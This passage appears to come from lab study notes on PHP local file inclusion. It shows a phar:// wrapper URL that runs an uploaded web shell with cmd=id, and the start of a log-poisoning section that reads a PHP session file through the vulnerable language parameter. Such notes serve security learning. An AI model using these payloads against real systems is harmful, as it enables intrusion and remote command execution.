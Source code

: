 ```
http://{TARGET_IP}{TARGET_PORT}/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```


### Log Poisoning

PHP session files on the back-end, and saved in `/var/lib/php/sessions/` on `Linux` and in `C:\Windows\Temp\` on `Windows`.

#### Testing for log Poisoning.
Extract your `PHPSESSID` from your browser's stored cookies, you can also use the CookieEditor browser extension:

![Cookie Editor](/images/htb/file-inclusion/log-poisoning-show-phpsessid-cookie.png)

Read session file:
```
http://{TARGET_IP}:{TARGET_PORT}/index.php?language=/var/lib/php/sessions/sess_g5ds0eji4klqpmn82iid4gmsrm
```
![Read PHPSESSID File](/images/htb/file-inclusion/log-poisoning-read-phpsessid.png)
